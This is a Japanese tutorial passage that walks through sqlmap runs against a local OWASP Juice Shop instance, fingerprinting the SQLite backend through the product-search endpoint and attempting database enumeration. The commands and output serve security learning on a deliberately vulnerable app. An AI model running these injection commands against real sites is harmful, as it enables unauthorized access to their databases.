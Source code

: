 ### テストしてみた

#### DBMS を探りあてる

それでは、sqlmap を試してみます。  
各オプションの意味は `-hh` を付けるか [usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage) をご覧ください。  

`-u` はターゲット URL です。Juice Shop は `/rest/products/search` が商品検索機能となっています。ここに脆弱性があります。(ここ以外にもありますが分かりやすいので)  
`--banner` を付けてサイトが使用している DBMS とバージョンを探ってみます。  
`--random-agent` は User-Agent をランダムで生成します。  
`--batch` は対話型オプションを全てデフォルトで進めてくれます。sqlmap は実行途中に何度かオプションを聞かれます。入力を省略したい際に使います。  

```bash
$ python3 sqlmap.py -u http://localhost/rest/products/search?q= --random-agent --batch --banner
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.7.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[01:53:57] [INFO] the back-end DBMS is SQLite
[01:53:57] [INFO] fetching banner
[01:53:57] [INFO] resumed: 3.41.1
back-end DBMS: SQLite
banner: '3.41.1'
```

SQLite 3.41.1 ということが判明しました。  
Juice Shop のサイトにも書いてあります。あっさりと DBMS がバレてしまいました。  
![img](https://raw.githubusercontent.com/juice-shop/pwning-juice-shop/master/docs/modules/ROOT/assets/images/introduction/architecture-diagram.png)  

#### データベースリストを取得

`--dbs` を付けるとデータベースリストが取得可能です。  

```bash
$ python3 sqlmap.py -u http://localhost/rest/products/search?q= --random-agent --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[01:56:02] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[01:56:02] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
```
